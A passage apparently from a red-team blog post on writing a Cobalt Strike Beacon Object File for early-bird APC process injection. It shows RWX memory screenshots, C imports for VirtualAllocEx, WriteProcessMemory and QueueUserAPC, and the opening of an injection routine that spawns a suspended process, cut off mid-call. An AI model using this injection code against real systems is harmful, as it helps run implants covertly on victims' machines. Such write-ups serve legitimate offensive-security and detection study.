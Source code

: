 ![](https://i.postimg.cc/Bb3zzNDk/beacon-rwx.png)

And there it is! The RWX has confirmed that my `VirtualAllocEx` is being used and my code isn't broken.

![](https://i.postimg.cc/pVQ4jbMH/process-hacker-rwx.png)

## Code Snippets

Imports and constants:

```c
#define MAX_PATH_LENGTH 1000

DECLSPEC_IMPORT WINBASEAPI WINBOOL WINAPI KERNEL32$CreateProcessA (
  LPCSTR lpApplicationName,
  LPSTR lpCommandLine,
  LPSECURITY_ATTRIBUTESlpProcessAttributes,
  LPSECURITY_ATTRIBUTES lpThreadAttributes,
  BOOL bInheritHandles,
  DWORD dwCreationFlags,
  LPVOID lpEnvironment,
  LPCSTR lpCurrentDirectory,
  LPSTARTUPINFOA lpStartupInfo,
  LPPROCESS_INFORMATION lpProcessInformation);

DECLSPEC_IMPORT WINBASEAPI DWORD WINAPI KERNEL32$QueueUserAPC (
  PAPCFUNC pfnAPC,
  HANDLE hThread,
  ULONG_PTR dwData);

DECLSPEC_IMPORT WINBASEAPI DWORD WINAPI KERNEL32$ResumeThread (
  HANDLE hThread);

DECLSPEC_IMPORT WINBASEAPI LPVOID WINAPI KERNEL32$VirtualAllocEx (
  HANDLE hProcess,
  LPVOID lpAddress,
  SIZE_T dwSize,
  DWORD flALlocationType,
  DWORD flProtect);

DECLSPEC_IMPORT WINBASEAPI WINBOOL WINAPI KERNEL32$WriteProcessMemory (
  HANDLE hProcess,
  LPVOID lpBaseAddress,
  LPCVOID lpBuffer,
  SIZE_T nSize,
  SIZE_T *lpNumberOfBytesWritten);
```

`QueueUserAPC` implementation:

```c
/* begin QueueUserAPC implementation */

// obtain SpawnTo value
char spawnTo[MAX_PATH_LENGTH];
BeaconGetSpawnTo(x86, spawnTo, MAX_PATH_LENGTH);

// CreateProcess in suspended state
BOOL success = KERNEL32$CreateProcessA(
  NULL,
  spawnTo,
  NULL,
  NULL,
  FALSE,
```